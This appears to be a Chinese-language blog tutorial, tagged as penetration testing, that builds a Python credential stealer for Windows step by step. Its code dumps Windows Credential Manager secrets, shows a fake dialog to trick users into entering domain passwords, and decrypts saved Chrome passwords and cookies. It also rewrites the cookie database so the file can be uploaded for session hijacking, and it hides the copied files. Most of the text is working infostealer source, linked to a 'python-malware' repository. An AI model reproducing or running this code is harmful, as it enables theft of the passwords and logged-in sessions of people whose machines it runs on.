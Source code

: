```yaml
---
title: 窃取凭据与cookie
description: 使用python窃取windows凭据与chrome cookie.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


#### 环境准备

`python3`

`pip install pypiwin32`

#### 导入所需要包

导入所需包和模块，并创建一个常量，用来调用某些凭据管理器相关功能时使用。

```python
import os
import io
import sqlite3
import shutil
import win32cred
import win32crypt
import win32api
import win32con
import pywintypes

CRED_TYPE_GENERIC = win32cred.CRED_TYPE_GENERIC
```

#### 从windows凭据管理器中存储通用凭据

通用凭据是非域凭据。如果你在windows上使用Git并通过GitHub，Bitbucket，Gitlab等进行身份验证，则凭据将存储在CredMan中。

首先导入枚举和读取凭据所需的功能。
```python
def dump_credsman_generic():
    CredEnumerate = win32cred.CredEnumerate
    CredRead = win32cred.CredRead
```
然后，我们枚举存储在凭据管理器中的凭据，并将其放入`creds`变量中，该变量是一个元组。
```python
try:
    creds = CredEnumerate(None, 0)  # 枚举凭证
except Exception:  # 避免在任何异常情况下崩溃
    pass
```
现在，我们要遍历每个凭据集，再添加到`credentials`列表中。
```python
credentials = []

for package in creds:
    try:
        target = package['TargetName']
        creds = CredRead(target, CRED_TYPE_GENERIC)
        credentials.append(creds)
    except pywintypes.error:
        pass
```
创建一个内存文本流，避免在磁盘上写文件，遍历`credentials`变量并将所需的数据写入文本流。
```python
credman_creds = io.StringIO()  # 内存中文本流

for cred in credentials:
    service = cred['TargetName']
    username = cred['UserName']
    password = cred['CredentialBlob'].decode('utf-8','ignore')

    credman_creds.write('Service: ' + str(service) + '\n')
    credman_creds.write('Username: ' + str(username) + '\n')
    credman_creds.write('Password: ' + str(password) + '\n')
    credman_creds.write('\n')

return credman_creds.getvalue()
```

![3_1](https://yui77111.github.io/assets/images/article/python/3_1.png)

#### 询问提示域凭据

通过社工方式，用`CredUIPromptForCredentials()`功能来显示一个对话框来询问用户，从而欺骗用户向我们提供其域凭据。

```python
def ask_domain_credentials():
    CredUIPromptForCredentials = win32cred.CredUIPromptForCredentials

    creds = []

    try:
        creds = CredUIPromptForCredentials(os.environ['userdomain'], 0, os.environ['username'], None, True, CRED_TYPE_GENERIC, {})
    except Exception:
        pass
    return creds
```

![3_2](https://yui77111.github.io/assets/images/article/python/3_2.png)

返回如下格式

![3_3](https://yui77111.github.io/assets/images/article/python/3_3.png)

#### 存储保存在Chrome中的密码

如果在保存凭据时未设置主密码，则访问数据库中的加密`Blob`可以使用`CrytUnprotectData`解密(因为windows上的Chrome使用`CrytUnprotectData WinAPI`函数对其进行加密，[参考](https://chromium.googlesource.com/chromium/chromium/+/master/chrome/browser/password_manager/encryptor_win.cc))，只要它在当前用户上下文中完成即可。这意味着你不能只是获取数据库并在具有不同用户的另一台计算机上打开它。
Chrome密码存在Login Data在%localappdata%\Google\User Data\Default\目录中名为Login Data数据库中。可以用DB Brower看到数据库的结构。

![3_4](https://yui77111.github.io/assets/images/article/python/3_4.png)

我们想查询：`action_urls`，`username_value`和`password_value`。字段`password_value`包含一个加密的`Blob`，我们将使用以下代码对其进行解密。
我们先制作数据库文件的本地副本，否则如果当Chrome正在运行，它将带有一个句柄并且数据库将被锁定。

```python
try:
    login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Login Data'
    shutil.copy2(login_data, './Login Data')  # 复制数据库到当前目录
    win32api.SetFileAttributes('./Login Data',win32con.FILE_ATTRIBUTE_HIDDEN)  # 在文件操作过程中不可见
except Exception:
    pass

chrome_credentials = io.StringIO()
```
现在，我们使用sqlite3库打开Login Data数据库的本地副本，并查询用户保存凭据。
```python
try:
    conn = sqlite3.connect('./Login Data', )                                        # 连接数据库
    cursor = conn.cursor()                                                          # 创建一个游标来获取数据
    cursor.execute('SELECT action_url, username_value, password_value FROM logins') # 查询
    results = cursor.fetchall()                                                     # 获取数据
    conn.close()                                                                    # 关闭数据库文件，使其不会被进程锁定
    os.remove('Login Data')  
"""
```
遍历获取到的数据并使用WinAPI函数`CryptUnprotectData`解密密码，最后返回保存好的内存中的文本流。
```python
    for action_url, username_value, password_value in results:
        password = win32crypt.CryptUnprotectData(password_value, None, None, None, 0)[1] # 使用CryptUnprotectData解密
        if password:                                                                       # 将凭据写进内存中的文本流
            chrome_credentials.write('URL: ' + action_url + '\n')
            chrome_credentials.write('Username: ' + username_value + '\n')
            chrome_credentials.write('Password: ' + str(password) + '\n')
            chrome_credentials.write('\n')
    return chrome_credentials.getvalue()                                                   # 返回内存中的文本流

except sqlite3.OperationalError as e:
    print(e)
    pass

except Exception as e:
    print(e)
```

![3_5](https://yui77111.github.io/assets/images/article/python/3_5.png)

#### 窃取Chrome Cookie

Chrome Cookie与存储在Chrome 的密码一样，为同目录下的Cookies文件并用`CryptProtectData`加密。但不同的是我们使用解密的cookie窃取整个数据库文件重写数据库内部的数据。然后，如果会话在服务器上尚未过期或用户尚未注销，则可以将该数据库上载到远程服务器，并在站点中用于进行身份验证。

```python
login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Cookies'  # cookies文件路径
shutil.copy2(login_data, './Cookies')  # 复制到当前路径
win32api.SetFileAttributes('./Cookies', win32con.FILE_ATTRIBUTE_HIDDEN)
try:
    conn = sqlite3.connect('./Cookies')  # 连接
    cursor = conn.cursor()
    cursor.execute('SELECT host_key, name, value, encrypted_value FROM cookies')  # 查询
    results = cursor.fetchall()  # 获取

    # 解密
    for host_key, name, value, encrypted_value in results:
        decrypted_value = win32crypt.CryptUnprotectData(encrypted_value, None, None, None, 0)[1].decode()

        # 使用解密的值更新文件
        cursor.execute("UPDATE cookies SET value = ?, has_expires = 1, expires_utc = 99999999999999999,is_persistent = 1, is_secure = 0 WHERE host_key = ? AND name = ?"，(decrypted_value, host_key, name));

    conn.commit()  # 保存改变
    conn.close()  # 关闭文件，使其不被进程锁定

except Exception as e:
    print(e)
    pass
```

原cookies文件

![3_6](https://yui77111.github.io/assets/images/article/python/3_6.png)

新生成cookies文件

![3_7](https://yui77111.github.io/assets/images/article/python/3_7.png)


源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/credentials and cookies/main.py)